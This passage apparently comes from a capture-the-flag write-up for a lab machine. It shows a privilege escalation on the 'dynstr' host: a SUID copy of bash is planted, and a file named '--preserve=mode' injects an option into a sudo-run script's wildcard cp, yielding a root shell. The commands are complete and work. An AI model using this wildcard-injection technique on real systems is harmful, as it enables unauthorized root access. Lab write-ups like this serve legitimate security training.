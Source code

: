 I don't want to preserver ownership or timestamp, but preserving mode
would allow me to create a SUID binary and then have it owned by root.

I'll work out of `/dev/shm`, and first, create a version file to get
past that check:



    bindmgr@dynstr:/dev/shm$ echo 100 > .version

    bindmgr@dynstr:/dev/shm$ sudo bindmgr.sh 
    sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
    [+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /dev/shm.
    [+] Creating /etc/bind/named.conf.bindmgr file.
    [+] Staging files to /etc/bind/named.bindmgr.
    cp: cannot stat '*': No such file or directory
    [+] Checking staged configuration.
    [-] ERROR: The generated configuration is not valid. Please fix following errors: 
        /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/*: file not found



It errors out because there are no files. I'll create two. First, I'll
copy `bash` in and set it SUID. Then, I'll `touch -- --preserve=mode`.



    bindmgr@dynstr:/dev/shm$ cp /bin/bash .
    bindmgr@dynstr:/dev/shm$ chmod 4777 bash 
    bindmgr@dynstr:/dev/shm$ touch -- --preserve=mode



I'll run `sudo bindmgr.sh`, and the script fails at the config check,
but the SUID `bash` is now there:



    bindmgr@dynstr:/dev/shm$ sudo bindmgr.sh 
    sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
    [+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /dev/shm.
    [+] Creating /etc/bind/named.conf.bindmgr file.
    [+] Staging files to /etc/bind/named.bindmgr.
    [+] Checking staged configuration.
    [-] ERROR: The generated configuration is not valid. Please fix following errors: 
        /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
        /etc/bind/named.bindmgr/bash:14: unknown option 'hȀE'
        /etc/bind/named.bindmgr/bash:40: unknown option 'YF'
        /etc/bind/named.bindmgr/bash:40: unexpected token near '}'

    bindmgr@dynstr:/dev/shm$ ls -l /etc/bind/named.bindmgr/
    total 1156
    -rwsrwxrwx 1 root bind 1183448 Jun 13 22:49 bash



Running it (with `-p` to avoid dropping privs) gives a root shell:



    bindmgr@dynstr:/dev/shm$ /etc/bind/named.bindmgr/bash -p
    bash-5.0# 
